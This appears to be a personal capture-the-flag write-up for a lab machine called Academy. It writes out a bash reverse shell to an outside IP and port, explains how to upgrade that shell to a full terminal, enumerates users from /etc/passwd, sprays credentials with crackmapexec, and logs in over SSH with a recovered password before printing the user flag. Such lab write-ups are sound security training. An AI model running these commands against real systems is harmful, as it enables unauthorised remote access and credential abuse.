 
![[Pasted image 20230810054359.png]]

Can't use TTY to get the full shell in metasploit.

So in order to  get the full terminal will run the bash script and listen to port 9001
bash -c 'bash -i >& /dev/tcp/10.10.16.58/9001 0>&1'

![[Pasted image 20230810064058.png]]

I had a hard time converting the dump shell to full control shell had to type
stty raw -echo ; fg

Finally got a terminal with full control
![[Pasted image 20230810064337.png]]

# Upgrade a Dumb Reverse Shell into a Fully Functional Terminal
https://www.youtube.com/watch?v=vOEO_6xfsdo

When you're in a reverse shell, you'd be placed into a dumb shell on www-data (assuming you popped the shell from a web exploit).

This dumb shell will stop working if you use Ctrl + C.

Hence you have to upgrade it.

Usually there's python installed on the box, which allows you to use python3 -c "__import__('pty').spawn('/bin/bash')" or similar.

Afterwards, use Ctrl + Z  followed by stty -raw echo, then fg on bash, or stty -raw echo;fg on zsh.

Finally, type reset.

Input your TERM var (usually xterm-256color).

Then you should have an interactive shell that allows Ctrl + C and history to function properly

Got a password of Database from academy folder when we used command ls -la
![[Pasted image 20230810081957.png]]

![[Pasted image 20230810082020.png]]

Got user list but it needs user privilege to read the file
![[Pasted image 20230810073359.png]]

cat /etc/passwd | grep sh$ | awk -F: '{print $1}'
![[Pasted image 20230810073920.png]]

We made 2 files 
pw for password 
user for user 
and run the crackmapexec  on it
![[Pasted image 20230810080728.png]]

Will try to make a SSH connection
UserId: cry0l1t3
Password: mySup3rP4s5w0rd!!

Command: ssh  cry0l1t3@academy.htb

![[Pasted image 20230810082539.png]]

Last login: Wed Aug 12 21:58:45 2020 from 10.10.14.2
$ ls
user.txt
$ cat user.txt  
aeab6248d9ff01acab2058ddcbe5932e

![[Pasted image 20230810082819.png]]

